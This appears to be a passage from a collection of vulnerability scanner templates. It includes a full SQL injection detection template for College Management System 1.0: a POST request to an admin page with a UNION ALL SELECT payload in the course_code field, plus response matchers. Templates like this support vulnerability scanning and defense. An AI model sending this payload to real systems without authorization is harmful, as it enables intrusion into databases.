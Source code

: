 ### Matchers

**Type - dsl**

- dsl
  1. duration>=6
  2. status_code == 200
  3. contains(body, "\"data\":{\"success\":true}")
- condition - and

---

# College Management System 1.0 - SQL Injection

## Description

- College Management System 1.0 contains a SQL injection vulnerability via the course code parameter.

- severity - high
- tags - cve,cve2022,sqli,cms,collegemanagement

## Requests

### Step - 1

```
POST /admin/asign-single-student-subjects.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

submit=Press&roll_no=3&course_code=sd' UNION ALL SELECT CONCAT(md5({{num}}),12,21),NULL,NULL,NULL,NULL#

```

### Matchers

**Type - word**

- words
  1. {{md5({{num}})}}

**Type - status**

- status
  1. 302

---

# Car Rental Management System 1.0 - SQL Injection
